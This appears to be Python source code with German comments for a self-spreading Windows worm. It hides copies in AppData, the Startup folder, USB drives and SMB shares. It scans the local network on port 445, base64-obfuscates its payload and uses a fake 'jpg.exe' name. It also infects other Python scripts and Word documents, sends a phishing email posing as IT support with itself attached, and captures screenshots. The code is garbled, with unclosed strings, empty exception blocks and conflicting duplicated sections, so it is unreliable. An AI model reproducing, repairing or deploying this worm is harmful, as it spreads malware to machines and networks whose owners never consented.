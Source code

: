 import shutil
import os
import keyboard
import time
import win32com.client
import sys
import subprocess
import pyautogui
import os
import random
import base64
import shutil
import socket
import nmap
import subprocess
import time


WORM_NAME = "Urlaub2024 .jpg.exe"
HIDDEN_PATH = os.path.expanduser("~\\AppData\\Local\\Microsoft\\")
HIDDEN_FILE = os.path.join(HIDDEN_PATH, WORM_NAME)

try:

TARGET_DIRS = [
    os.path.expanduser("~\\Desktop"),
    os.path.expanduser("~\\Documents"),
    os.path.expanduser("~\\Downloads"),
    
]



TARGET_DIRS = [
     os.path.expanduser("~\\Desktop





]


AUTOSTART_PATH = os.path.expanduser(
    "~\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\")
WORM_NAME = "Detrix.exe"
SMTP_SERVER = "192.168.1.100"  
SMTP_PORT = 25  
SENDER_EMAIL = "infiziert@testnetz.local"
RECIPIENT_EMAIL = "opfer@testnetz.local"




hidden_path = os.path.expanduser("~\\AppData\\Local\\Microsoft\\")
startup_path = os.path.expanduser("~\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\")
usb_path = "E:\\"  # Beispiel für USB-Laufwerk

rnd1 = random.randint(1000, 9999)
worm_name = f"winupdate_{rnd1}.py"


junk_code = f"""
def fake_function_{rnd1}():
    var_{rnd1} = {random.randint(1, 100)}
    var_{rnd1})
"""


payload_code = f"""
def real_payload_{rnd1}():
     Version {rnd1}")
"""

















code_blocks = [junk_code, payload_code]
random.shuffle(code_blocks)
final_code = "\n".join(code_blocks)


encoded_code = base64.b64encode(final_code.encode()).decode()

wrapper_code = f"""
import base64
exec(base64.b64decode('{encoded_code}').decode())
"""


filenames = [
    os.path.join(hidden_path, worm_name),
    os.path.join(startup_path, worm_name),  # Autostart
    os.path.join(usb_path, worm_name)  # USB-Verbreitung
]


for filename in filenames:
    with open(filename, "w") as f:
        f.write(wrapper_code)
    print(f"➡ Wurm kopiert nach: {filename}")


if os.path.exists(filenames[1]):
    os.startfile(filenames[1])


def find_targets():
    """ Sucht nach anderen PCs im Netzwerk """
    nm = nmap.PortScanner()
    ip_range = socket.gethostbyname(socket.gethostname()) + "/24"
    nm.scan(hosts=ip_range, arguments="-p 445 --open")  # SMB-Port
    return [host for host in nm.all_hosts() if nm[host].state() == "up"]

def infect_target(target_ip):
    """ Versucht, den Wurm auf ein anderes System zu kopieren """
    remote_path = f"\\\\{target_ip}\\C$\\Users\\Public\\{worm_name}"
    try:
        shutil.copy(worm_name, remote_path)
        
    


targets = find_targets()
for target in targets:
    infect_target(target)


def infect_usb():
    """ Versucht, den Wurm auf ein USB-Laufwerk zu kopieren """
    try:
        if os.path.exists(usb_path):
            shutil.copy(worm_name, usb_path)
            
    except Exception as e:
        

infect_usb()



def hide_file():
    """ Macht die Datei unsichtbar in Windows """
    try:
        subprocess.call(["attrib", "+H", worm_name])  # Setzt das "Hidden"-Attribut
        
    except Exception as e:
        

hide_file()



from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase
from email import encoders

WORM_NAME = "WurmTest.exe"
SMTP_SERVER = "192.168.1.100"  # Ersetze mit IP des Test-Mailservers
SMTP_PORT = 25  # Port für unverschlüsseltes SMTP
SENDER_EMAIL = "infiziert@testnetz.local"
RECIPIENT_EMAIL = "opfer@testnetz.local"


def send_infected_email():
    msg = MIMEMultipart()
    msg['From'] = SENDER_EMAIL
    msg['To'] = RECIPIENT_EMAIL
    msg['Subject'] = "Dringend: Email durch Software !"

    body = "Hallo,\n\nBitte führen Sie das beigefügte Update aus. Es behebt kritische Sicherheitsprobleme.\n\nViele Grüße,\nIT-Support"
    msg.attach(MIMEText(body, 'plain'))

  
    attachment = open(WORM_NAME, "rb")
    part = MIMEBase('application', 'octet-stream')
    part.set_payload(attachment.read())
    encoders.encode_base64(part)
    part.add_header('Content-Disposition', f"attachment; filename={WORM_NAME}")
    msg.attach(part)
    attachment.close()

    
    try:
        server = smtplib.SMTP(SMTP_SERVER, SMTP_PORT)
        server.sendmail(SENDER_EMAIL, RECIPIENT_EMAIL, msg.as_string())
        server.quit()
        print("[+] Infizierte E-Mail gesendet!")
    except Exception as e:
        print(f"[-] Fehler beim Senden: {e}")


if __name__ == "__main__":
    send_infected_email()

def spread():

    worm_path = os.path.abspath(__file__)

    if not os.path.exists(HIDDEN_FILE):
        shutil.copy(worm_path, HIDDEN_FILE)
        print(f"[+] Wurm versteckt in: {HIDDEN_FILE}")

    for target in TARGET_DIRS:
        new_path = os.path.join(target, WORM_NAME)
        if not os.path.exists(new_path):
            shutil.copy(HIDDEN_FILE, new_path)
            print(f"[+]: {new_path}")

    drives = [f"{d}:\\" for d in "DEFGHIJKLMNOPQRSTUVWXYZ" if os.path.exists(f"{d}:\\")]
    for drive in drives:
        usb_path = os.path.join(drive, WORM_NAME)
        if not os.path.exists(usb_path):
            shutil.copy(HIDDEN_FILE, usb_path)
            print(f"[+]: {usb_path}")


def infect_other_scripts():
    for root, _, files in os.walk(os.path.expanduser("~")):
        for file in files:
            if file.endswith(".py") and file != WORM_NAME:
                target_path = os.path.join(root, file)
                with open(target_path, "r", encoding="utf-8") as f:
                    content = f.read(
                if "PhantomByte" not in content:
                    with open(target_path, "w", encoding="utf-8") as f:
                        f.write(content + f"\n# PhantomByte\n{open(__file__).read()}")


def infect_word_docs():
    """ Fügt sich in alle Word-Dateien ein """
    word = win32com.client.Dispatch("Word.Application")
    word.Visible = False

    for folder in TARGET_DIRS:
        for file in os.listdir(folder):
            if file.endswith(".docx") or file.endswith(".doc"):
                file_path = os.path.join(folder, file)
                try:
                    doc = word.Documents.Open(file_path)
                    doc.Content.InsertAfter("\n\n PhantomByte war hier!")
                    doc.Save()
                    doc.Close()
                    print(f: {file_path}
                    ")
                except Exception as e:
                    print(f"[-] {file_path}: {e}")

import os

    network_shares = ["\\\\192.168.1.100\\freigabe", "\\\\192.168.1.101\\public"]
    for share in network_shares:
        try:
            os.system(f'copy {__file__} {share}\\Urlaub2024.jpg.exe')
            print(f"[+] Wurm verbreitet auf {share}")
        except Exception as e:
            print(f"[-] Fehler bei {share}: {e}")

    word.Quit()
for target in TARGET_DIRS:
    new_path = os.path.join(target, WORM_NAME)
    if not os.path.exists(new_path):
        shutil.copy(HIDDEN_FILE, new_path)
        print(f"[+] {new_path}")

WORM_NAME = "WurmTest.exe"
TARGET_SHARE = r"\\192.168.1.102\Freigabe"  # Beispiel-IP des Opfer-PCs

def spread_via_smb():
    try:
        dest_path = os.path.join(TARGET_SHARE, WORM_NAME)
        shutil.copy(WORM_NAME, dest_path)
        print(f"[+] Wurm nach {dest_path} kopiert!")
    except Exception as e:
        print(f"[-] Fehler beim Kopieren: {e}")

if __name__ == "__main__":
    spread_via_smb()



def self_modify():

    global TARGET_DIRS
    if random.choice([True, False]):
        new_dir = os.path.expanduser("~\\Videos")
        TARGET_DIRS.append(new_dir)
        print(f"[+] : {TARGET_DIRS}")



def take_screenshot():
    while True:
        screenshot = pyautogui.screenshot()
        screenshot.save(f"C:\\Users\\Public\\screenshot_{time.time()}.png")
        time.sleep(0.01)

take_screenshot()


def enable_autostart():
    if not os.path.exists(AUTOSTART_PATH)
        shutil.copy(HIDDEN_FILE, AUTOSTART_PATH)
        print(f"[+]  {AUTOSTART_PATH}")


def hide_file():

    try:
        subprocess.call(["attrib", "+H", HIDDEN_FILE])
        print(f"[+]
    except:
        print("[-]


def run_worm():
    

    enable_autostart
    hide_file()




if __name__ == "__main__":
    run_worm()


